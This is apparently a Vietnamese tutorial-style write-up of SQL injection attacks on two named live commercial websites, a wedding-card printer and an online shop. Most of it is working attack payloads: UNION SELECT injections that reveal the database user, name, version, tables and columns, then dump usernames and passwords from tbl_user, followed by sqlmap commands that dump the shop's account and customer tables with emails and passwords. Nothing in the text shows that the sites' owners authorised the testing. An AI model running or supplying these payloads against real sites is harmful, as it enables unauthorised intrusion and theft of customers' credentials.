



# Thực hiện khai thác lỗ hổng trang web trên SQL injection
###### Test trên web "In Thiếp cưới"  `https://thanhnha.com/?php=product_detail&cat=201&id=288`
###### Để tìm xem trang web này có bị lỗi SQL injection ko. Thực hiện thêm `'` vào sau `id`
###### `/?php=product_detail&cat=201&id=288'`
###### ==> Nhận thấy lỗi không show ra image và information của sản phẩm.

### Tìm kiếm số `col` của trang web
###### Bằng lệnh `GET /?php=product_detail&cat=201&id=288' ORDER BY 18-- - HTTP/2` thì xảy ra lỗi 
###### Câu lệnh được mã hóa trong Burp suite `GET /?php=product_detail&cat=201 id=288%20ORDER%20BY%2017--%20-`

###### Còn khi giảm xuống `ORDER BY 17-- -` thì không xuất hiện lỗi.
###### ===> Có 17 cột. 

### Tìm các cột hợp lý để nhúng code.
###### Bằng lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- -`

###### Câu lệnh mã hõa trong Burp

###### ===> 3 và 6 là cột để có thể chèn code vào đó.Em chọn cột 6 để chèn code vào vì lý do không gian để chứa thông tin in ra nhiều.
### Tìm kiế USER 
##### bằng câu lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,3,4,5,user(),7,8,9,10,11,12,13,14,15,16,17-- -` có thể xem được người dùng.

###### Câu lệnh mã hóa trong burp suite

###### ===> Tìm ra tên người dùng `thanhnhaco_binh@localhost`
### Tìm kiếm tên database.
###### Sử dụng lệnh để tìm kiếm tên database của trang web `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,3,4,5,database(),7,8,9,10,11,12,13,14,15,16,17-- -` là `thanhnhaco_binh `

### Tìm kiếm version mà trnag web đang sử dụng.
##### Thực hiện nhập lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,3,4,5,version(),7,8,9,10,11,12,13,14,15,16,17-- -`
###### ===> kết quả ccho thấy version mà trang web đang sử dụng là `10.6.19-MariaDB `

### Tìm kiếm tên bảng mà SQL sử dụng.
###### Bằng lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,3,4,5,group_concat(unhex(hex(table_name))),7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema=database()-- -` chúng ta thấy được tên bẳng như sau.

### Tìm kiếm thông tin bảng vừa tìm được.
###### Tìm kiếm thông tin của bảng `tbl_user` bằng lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,3,4,5,group_concat(unhex(hex(column_name))),7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_schema=database() and table_name='tbl_user'-- -`
###### ===> kết quả tìm thấy dữ liệu như hình dưới đây.

### Lấy userName và PassWork người dùng.
###### Bằng lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,uid,4,5,pwd,7,8,9,10,11,12,13,14,15,16,17 from tbl_user-- -`
###### Tìm thấy kết quả username và password.

### Lấy ra tài khoản mà mật khẩu khác.
###### Bằng cách nhập lệnh `https://thanhnha.com/?php=product_detail&cat=201&id=-288 UNION SELECT 1,2,uid,4,5,pwd,7,8,9,10,11,12,13,14,15,16,17 from tbl_user limit 1,1-- -`

###### Lấy tài khoản admin của một web site khác.

###### Sau khi chạy sqlmap để kiểm tra thì phát hiện web này mắc lỗi sql injection.
###### Kiểm tra trang web này ta thấy rằng database được tạo bằng MySQL.

###### Ta thấy mk đã bi mã hóa ta tiến hành giải mã.

###### Lấy tài khoản người dùng.

###### `sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" --dbs`

###### `sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly --tables`

###### `sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly -T account --columns`

###### `sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly -T account -C username,password --dump`

###### `sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly -T khachhang --columns`

###### `sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly -T khachhang -C email,id,matkhau --dump`

